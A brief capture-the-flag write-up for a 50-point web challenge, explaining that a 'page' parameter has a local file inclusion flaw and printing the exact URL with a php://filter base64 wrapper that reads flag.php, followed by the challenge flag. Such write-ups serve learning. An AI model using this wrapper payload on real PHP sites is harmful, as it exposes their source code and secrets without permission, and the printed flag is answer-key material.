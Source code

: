 # P.A.I.N.T.: Professional Arctic Interactive NT drawing service (web 50)

The `page=` paramter hints that the challenge has LFI. Using a PHP wrapper, we can read the flag.php file directly.

http://challs.xmas.htsp.ro:6004/?page=php://filter/convert.base64-encode/resource=flag.php

## Flag
`X-MAS{P41NT_W4R??_IT'S_LIK3_4n_3d1t_w4r,bu7_w1th_p1x3l5_30c1n98c}`
